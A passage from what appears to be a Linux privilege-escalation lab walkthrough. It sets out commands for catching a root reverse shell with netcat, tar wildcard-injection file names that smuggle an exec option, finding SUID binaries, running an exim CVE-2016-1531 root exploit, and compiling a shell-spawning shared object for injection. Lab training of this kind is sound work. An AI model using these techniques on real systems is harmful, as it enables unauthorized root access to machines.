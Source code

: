Set up a netcat listener on your Kali box on port `4444` and wait for the cron job to run (should not take longer 
than a minute). A root shell should connect back to your netcat listener.

    nc -nvlp 4444

Exit out of the root shell and delete all the files you created to prevent the cron job from executing again:

    rm /home/user/shell.elf
    rm /home/user/--checkpoint=1
    rm /home/user/--checkpoint-action=exec=shell.elf

## SUID/SGID executables - Known exploits

Find all the `SUID/SGID` executables on the Debian VM:

    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

Note that `/usr/sbin/exim-4.84-3` appears in the results. Try to find a known exploit for this version of exim. 
[Exploit-DB](https://www.exploit-db.com/), Google, and GitHub are good places to search!

A local privilege escalation exploit matching this version of exim exactly should be available. A copy can be found 
on the Debian VM at `/home/user/tools/suid/exim/cve-2016-1531.sh`.

Run the exploit script to gain a root shell:

    /home/user/tools/suid/exim/cve-2016-1531.sh

Exit out of the root shell before continuing!

## SUID/SGID executables - Shared object injection

The `/usr/local/bin/suid-so` SUID executable is vulnerable to shared object injection.

First, execute the file and note that currently it displays a progress bar before exiting:

    /usr/local/bin/suid-so

Run `strace` on the file and search the output for open/access calls and for `no such file` errors:

    strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"

Note that the executable tries to load the `/home/user/.config/libcalc.so` shared object within our home directory, 
but it cannot be found.

Create the .config directory for the `libcalc.so` file:

    mkdir /home/user/.config

Example shared object code can be found at `/home/user/tools/suid/libcalc.c`. It simply spawns a Bash shell. Compile 
the code into a shared object at the location the suid-so executable was looking for it:

    gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
